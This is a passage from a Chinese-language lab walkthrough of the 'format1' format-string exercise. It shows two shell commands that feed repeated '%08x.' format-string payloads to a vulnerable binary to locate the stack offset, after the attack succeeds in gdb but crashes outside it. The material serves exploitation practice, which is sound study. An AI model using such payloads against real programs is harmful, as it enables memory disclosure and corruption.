 <img src=".\format1-analysis-15.png" style="zoom:67%;" />

攻击成功！

但是退出gdb后执行，该攻击脚本失效，程序输出Segmentation fault。

下面直接在命令行调试。

```shell
$ ./format1 $(python -c 'print "DDDD" + "%08x."*131 + "[%08x]"')
```

<img src=".\format1-analysis-16.png" style="zoom:67%;" />

发现偏移改变了，经过几次改变输入调试后重新得到正确的偏移。

```shell
$ ./format1 $(python -c 'print "DDDD" + "AAAAA" + "%08x."*122 + "[%08x]"')
```
